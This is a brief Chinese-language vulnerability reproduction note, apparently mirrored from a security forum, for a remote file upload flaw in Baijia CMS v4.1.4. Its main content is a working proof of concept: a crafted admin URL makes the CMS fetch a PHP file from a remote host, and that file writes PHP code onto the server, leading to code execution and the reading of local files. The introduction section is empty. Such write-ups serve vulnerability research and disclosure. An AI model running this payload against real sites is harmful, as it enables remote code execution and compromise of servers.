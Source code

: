 # 百家cms v4.1.4 远程文件上传漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3326](https://www.zhihuifly.com/t/topic/3326)

# 百家cms v4.1.4 远程文件上传漏洞

## 一、漏洞简介

## 二、漏洞影响

百家cms v4.1.4

## 三、复现过程

```
# 需要后台权限
http://www.0-sec.org/index.php?mod=web&do=file&m=public&op=fetch&url=http://xx.xx.xx.xx/test/test.php 
```

远程服务器起一个/test/test.php，内容为**<?php echo "<?php phpinfo();";**

![image](img/39999f90abcf972682a6189f75090a48.png)

访问payload，得到路径

![image](img/56af57b31855bc82a23a1c6c00f35eda.png)

访问路径，执行代码

![image](img/517a7a6d2e5f0382649af0125913612d.png)

查看本地文件

![image](img/31fb994977a2034251065c0934491eff.png)

## 参考链接

> https://xz.aliyun.com/t/7542